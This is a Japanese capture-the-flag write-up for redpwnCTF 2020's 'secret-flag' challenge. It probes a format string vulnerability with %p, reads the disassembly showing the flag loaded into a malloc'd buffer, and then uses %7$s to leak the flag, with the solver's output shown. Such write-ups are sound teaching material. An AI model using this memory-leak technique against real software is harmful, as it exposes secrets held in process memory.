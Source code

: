 # secret-flag

> There's a super secret flag in printf that allows you to LEAK the data at an address??

secret-flagという実行ファイルが添付されていた。

## solution

secret-flagを実行してみる。
```
$ ./secret-flag
I have a secret flag, which you'll never get!
What is your name, young adventurer?
%p
Hello there: 0x7fffffffbce0
```

この結果からFSBの脆弱性があることがわかる。

```
 92f:   31 c0                   xor    eax,eax
 931:   bf 00 01 00 00          mov    edi,0x100
 936:   e8 a5 fe ff ff          call   7e0 <malloc@plt>
 93b:   48 89 45 d8             mov    QWORD PTR [rbp-0x28],rax
 93f:   be 00 00 00 00          mov    esi,0x0
 944:   48 8d 3d 5d 01 00 00    lea    rdi,[rip+0x15d]        # aa8 <__cxa_finalize@plt+0x2a8>
 94b:   b8 00 00 00 00          mov    eax,0x0
 950:   e8 9b fe ff ff          call   7f0 <open@plt>
 955:   89 45 d4                mov    DWORD PTR [rbp-0x2c],eax
 958:   48 8b 4d d8             mov    rcx,QWORD PTR [rbp-0x28]
 95c:   8b 45 d4                mov    eax,DWORD PTR [rbp-0x2c]
 95f:   ba 00 01 00 00          mov    edx,0x100
 964:   48 89 ce                mov    rsi,rcx
 967:   89 c7                   mov    edi,eax
 969:   b8 00 00 00 00          mov    eax,0x0
 96e:   e8 4d fe ff ff          call   7c0 <read@plt>
```

逆アセンブルしてアセンブリを読んでみるとmallocしてopenしてreadしている部分がある。
この部分でflagを読み込んでいる。

この部分から[rbp-0x28]にmallocで確保したメモリのアドレスがあり、そこにflagが書き込まれていることがわかる。
gdbを使って調べると、%7$pを入力した時に[rbp-0x28]にある値と一致したので、あとは%pではなく%sで文字列として読み取ってやるとフラグが手に入る

```
$ python solve.py
[+] Opening connection to 2020.redpwnc.tf on port 31826: Done
[+] Receiving all data: Done (126B)
[*] Closed connection to 2020.redpwnc.tf port 31826
I have a secret flag, which you'll never get!
What is your name, young adventurer?
Hello there: flag{n0t_s0_s3cr3t_f1ag_n0w}
```
